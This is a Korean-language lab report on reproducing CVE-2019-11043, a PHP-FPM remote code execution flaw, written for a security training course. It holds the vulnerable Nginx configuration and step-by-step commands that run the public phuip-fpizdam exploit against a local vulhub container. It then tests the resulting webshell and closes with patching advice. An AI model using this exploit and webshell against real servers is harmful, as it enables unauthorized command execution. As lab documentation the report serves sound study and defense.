 # CVE-2019-11043 PHP-FPM 원격 코드 실행 PoC 보고서
> 화이트햇 스쿨 3기 26반- [윤성준 (@ysj-main)](https://github.com/ysj-main)

## 1. 취약점 정보

### 1.1 개요  
CVE-2019-11043는 Nginx와 PHP-FPM을 조합해 사용할 때, Nginx의 FastCGI 처리 과정에서 `fastcgi_split_path_info` 설정과 PHP-FPM 내부 버퍼 오버플로우가 결합되어 발생하는 원격 코드 실행(RCE) 취약점입니다.

### 1.2 발생 원인  
- **Nginx 설정**  
  ```nginx
  location ~ [^/]\.php(/|$) {
      fastcgi_split_path_info ^(.+?\.php)(/.*)$;
      include fastcgi_params;
      fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
      fastcgi_pass php:9000;
      …
  }
  ```
- **PHP-FPM 버전**  
  PHP-FPM 7.1.x 미만, 7.2.x 미만, 7.3.x 미만 버전에서 PATH_INFO 처리를 위해 할당된 내부 버퍼를 넘어선 데이터를 복사하면서 FCGI 프로토콜 데이터 영역을 덮어쓰게 됩니다.

### 1.3 영향 받는 버전  
- PHP 7.1.x 7.1.33 미만  
- PHP 7.2.x 7.2.24 미만  
- PHP 7.3.x 7.3.11 미만  

## 2. 참고 자료

- NVD CVE-2019-11043: https://nvd.nist.gov/vuln/detail/CVE-2019-11043  
- vulhub PoC 디렉토리: https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043  
- Exploit Tool (phuip-fpizdam): https://github.com/neex/phuip-fpizdam  

## 3. PoC 실행 흐름

### 3.1 환경 준비 (Ubuntu 24.04 기준)
- go 언어 설치
```bash
sudo apt update
sudo apt install golang-go -y
```

### 3.2 취약 컨테이너 실행  
```bash
cd ~/kr-vulhub/php/CVE-2019-11043
sudo docker compose up -d
```
![](./img/1.png)

- `php:7.2.10-fpm` 및 `nginx:1` 컨테이너가 실행됩니다.
![](./img/2.png)

### 3.3 기본 동작 확인
터미널로 동작 확인
```bash
curl http://localhost:8080/index.php
# → hello world
```
브라우저로 동작 확인
![](./img/3.png)

### 3.4 Exploit 도구 클론 및 실행  
```bash
#  https://github.com/neex/phuip-fpizdam를 사용하여 익스플로잇이 가능합니다.
cd ~
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam

# Exploit
go run . "http://localhost:8080/index.php"
![](./img/4.png)
```
- “Success! Was able to execute a command…” 메시지가 뜨면 RCE 취약점 재현 성공입니다.  
- 탐지 실패 시:
  ```bash
  go run . "http://localhost:8080/index.php" --skip-detect --qsl 1790 --pisos 152
  ```

### 3.5 WebShell 테스트  
터미널로 WebShell 테스트
```bash
curl "http://localhost:8080/index.php?a=id"
# → uid=www-data(…) gid=… groups=…
```
브라우저로 WebShell 테스트
```
http://localhost:8080/index.php?a=id
```
![](./img/5.png)

## 4. 결론 및 주의사항

- **부분적 취약**: PHP-FPM 자식 프로세스 중 일부만 영향을 받으므로, 동일 명령을 여러 번 시도해야 할 수 있습니다.  
- **환경 의존성**: Nginx의 `location` 블록 설정과 PHP-FPM 버전이 정확히 일치해야 취약이 발현됩니다.  
- **대응 방안**:  
  1. PHP를 7.1.33, 7.2.24, 7.3.11 이상 버전으로 업그레이드  
  2. Nginx 설정에서 `fastcgi_split_path_info` 대신 안전한 파일 처리 방식을 적용하거나 해당 블록을 제거
